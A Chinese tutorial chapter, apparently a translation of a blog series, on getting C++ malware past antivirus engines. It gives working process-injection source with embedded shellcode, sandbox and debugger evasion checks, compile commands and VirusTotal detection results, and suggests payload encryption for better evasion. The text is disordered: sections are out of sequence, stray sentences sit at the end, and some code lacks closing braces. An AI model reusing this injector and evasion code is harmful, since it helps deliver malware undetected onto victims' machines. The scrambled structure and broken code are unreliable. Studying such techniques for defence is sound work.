







\newpage
\subsection{AV 引擎规避技术（第 3 部分）：简单的 C++ 示例}

### 第二部分

{width="80%"}

在这一节中，我们将尝试实现一些恶意软件用来执行代码、躲避防御的技术。

我们来看一下实现经典代码注入的恶意软件示例 C++ 源代码：

这是经典的变体：我们定义载荷，分配内存，把它复制到新的缓冲区，然后执行它。

对 AV 扫描器来说，主要的限制是它们能在每个文件上花的时间。

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

int main(int argc, char* argv[]) {

  // 64-bit meow-meow messagebox without encryption
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, 
  sizeof(my_payload), NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)rb, 
  NULL, 0, NULL);
  CloseHandle(ph);
  return 0;

```

在常规系统扫描中，AV 必须分析成千上万个文件。

除了载荷加密之外，另一个「经典」的 AV 规避技巧是：我们只是分配并填充 100MB 的内存：

```cpp
char *mem = NULL;
mem = (char *) malloc(100000000);
if (mem != NULL) {
  memset(mem, 00, 100000000);
  free(mem);
  //... run our malicious logic

```

那么，我们来更新我们简单的恶意软件：

```cpp
/*
hack.cpp
classic payload injection example
allocate too much memory
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/12/21/simple-malware-av-evasion-3.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

int main(int argc, char* argv[]) {

  // meow-meow messagebox x64 windows
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  DWORD pid; // process ID
  pid = atoi(argv[1]);

  // allocate and fill 100 MB of memory
  char *mem = NULL;
  mem = (char *) malloc(100000000);

  if (mem != NULL) {
  memset(mem, 00, 100000000);
  free(mem);

  // parse process ID
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(pid));
  printf("PID: %i", pid);

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, 
  sizeof(my_payload), NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)rb, 
  NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
  }

```

我们来编译：

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后在我们的受害机器上运行它（Windows 10 x64）：

{width="80%"}

我们可以看到一切都完美工作了 :)

如果我们把这个恶意软件上传到 VirusTotal：

{width="80%"}

<https://www.virustotal.com/gui/file/4ff68b6ca99638342b9b316439594c21520e66feca36c2447e3cc75ad3d70f46/detection>

所以，67 个 AV 引擎中有 6 个把我们的文件检测为恶意。

为了得到更好的结果，我们可以加上带密钥的载荷加密，或者混淆函数，或者把这两种技术结合起来。

恶意软件经常使用各种方法为它们所执行的环境做指纹识别，并根据情况执行不同的动作。

如今典型的用户机器至少有一个 2 核的处理器，并且至少有 2GB 内存。

```cpp
BOOL checkResources() {
  SYSTEM_INFO s;
  MEMORYSTATUSEX ms;
  DWORD procNum;
  DWORD ram;

  // check number of processors
  GetSystemInfo(&s);
  procNum = s.dwNumberOfProcessors;
  if (procNum < 2) return false;

  // check RAM
  ms.dwLength = sizeof(ms);
  GlobalMemoryStatusEx(&ms);
  ram = ms.ullTotalPhys / 1024 / 1024 / 1024;
  if (ram < 2) return false;

  return true;

```

这是 `VirtualAllocEx()` 的一个替代版本，专为拥有多个物理 CPU 的系统设计：

```cpp
typedef LPVOID (WINAPI * pVirtualAllocExNuma) (
  HANDLE  hProcess,
  LPVOID  lpAddress,
  SIZE_T  dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect,
  DWORD  nndPreferred
);

// memory allocation work on regular PC 
// but will fail in AV emulators
BOOL checkNUMA() {
  LPVOID mem = NULL;
  pVirtualAllocExNuma myVirtualAllocExNuma = 
  (pVirtualAllocExNuma)GetProcAddress(
  GetModuleHandle("kernel32.dll"), "VirtualAllocExNuma");
  mem = myVirtualAllocExNuma(GetCurrentProcess(), 
  NULL, 1000, MEM_RESERVE | MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE, 0);
  if (mem != NULL) {
  return false;
  } else {
  return true;
  }

//...
```

我们在这里所做的，是尝试用 `VirtualAllocExNuma()` 分配内存，如果失败就立即退出。

由于代码是被模拟的，它不是在一个以该二进制文件命名的进程中启动的。

```cpp
// what is my name???
if (strstr(argv[0], "hack2.exe") == NULL) {
  printf("What's my name? WTF?? :(\n");
  return -2;

```

`IsDebuggerPresent` 函数基本上就是检查 PEB 中的 `BeingDebugged` 标志：

```cpp
// "ask" the OS if any debugger is present
if (IsDebuggerPresent()) {
  printf("attached debugger detected :(\n");
  return -2;

```

动态恶意软件分析——或者说沙箱——已经成为任何主流安全解决方案的核心。

所以我们可以尝试把所有这些技巧组合起来（`hack2.cpp`）：

```cpp
/*
hack.cpp
classic payload injection example
allocate too much memory
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/12/21/simple-malware-av-evasion-3.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <memoryapi.h>

typedef LPVOID (WINAPI * pVirtualAllocExNuma) (
  HANDLE  hProcess,
  LPVOID  lpAddress,
  SIZE_T  dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect,
  DWORD  nndPreferred
);

// memory allocation work on regular PC 
// but will fail in AV emulators
BOOL checkNUMA() {
  LPVOID mem = NULL;
  pVirtualAllocExNuma myVirtualAllocExNuma = 
  (pVirtualAllocExNuma)GetProcAddress(
  GetModuleHandle("kernel32.dll"), 
  "VirtualAllocExNuma");
  mem = myVirtualAllocExNuma(GetCurrentProcess(), 
  NULL, 1000, MEM_RESERVE | MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE, 0);
  if (mem != NULL) {
  return false;
  } else {
  return true;
  }

// resource check
BOOL checkResources() {
  SYSTEM_INFO s;
  MEMORYSTATUSEX ms;
  DWORD procNum;
  DWORD ram;

  // check number of processors
  GetSystemInfo(&s);
  procNum = s.dwNumberOfProcessors;
  if (procNum < 2) return false;

  // check RAM
  ms.dwLength = sizeof(ms);
  GlobalMemoryStatusEx(&ms);
  ram = ms.ullTotalPhys / 1024 / 1024 / 1024;
  if (ram < 2) return false;

  return true;

int main(int argc, char* argv[]) {

  // meow-meow messagebox x64 windows
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  DWORD pid; // process ID
  pid = atoi(argv[1]);

  // what is my name???
  if (strstr(argv[0], "hack2.exe") == NULL) {
  printf("What's my name? WTF?? :(\n");
  return -2;
  }

  // "ask" the OS if any debugger is present
  if (IsDebuggerPresent()) {
  printf("attached debugger detected :(\n");
  return -2;
  }

  // check NUMA
  if (checkNUMA()) {
  printf("NUMA memory allocate failed :( \n");
  return -2;
  }

  // check resources
  if (checkResources() == false) {
  printf("possibly launched in sandbox :(\n");
  return -2;
  }

  // allocate and fill 100 MB of memory
  char *mem = NULL;
  mem = (char *) malloc(100000000);

  if (mem != NULL) {
  memset(mem, 00, 100000000);
  free(mem);

  // parse process ID
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(pid));
  printf("PID: %i", pid);

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, 
  sizeof(my_payload), NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)rb, 
  NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
  }

```

我们来编译：

{width="80%"}

然后在我们的受害机器上运行（Windows 10 x64）：

{width="80%"}

我们可以看到，我们的恶意逻辑并没有启动，因为我们身处一个只有 1 核 CPU 的虚拟机中。

我们把这个变体上传到 VirusTotal：

{width="80%"}

<https://www.virustotal.com/gui/file/5658fd8d326dcbb01492c0d5644cdeb69dc8d64acbf939a91b25a3caa53f7a61/detection>

所以，67 个 AV 引擎中有 8 个把我们的文件检测为恶意。

和往常一样，为了得到更好的结果，我们可以加上带密钥的载荷加密，或者混淆函数，或者把这两种技术结合起来。

总而言之，这些例子表明，利用 AV 的弱点来绕过它其实相当简单。

这只需要一些关于 Windows 系统以及 AV 工作原理的知识。

我们还可以尝试检测我们机器的设备与厂商名称、搜索 VM 特有的痕迹、检查文件/进程/窗口名称、检查屏幕分辨率等等。

我希望这一节能让蓝队意识到这项有趣的技术，同时为红队的武器库增添一件武器。

这是本教程的第三部分，它描述了一个如何在简单的 C++ 恶意软件中绕过 AV 引擎的示例。

### 第一部分

它不可能在一个特殊文件上花太多时间或算力。

### 接下来呢？

例如，我们可以检测虚拟化环境。

沙箱和分析人员的虚拟机通常无法 100% 准确地模拟真实执行环境。

所以我们的恶意软件可以检查环境是否满足这些约束：

我们还会调用 `VirtualAllocExNuma()` API。

否则，执行会继续。

这就是我们首先检查第一个参数是否包含文件名的原因：

也可以简单地「问」操作系统是否有调试器附加。

与此同时，几乎所有当前威胁的变体都包含某种沙箱检测逻辑。

我将来会在单独的文章中展示这些技术和真实案例。
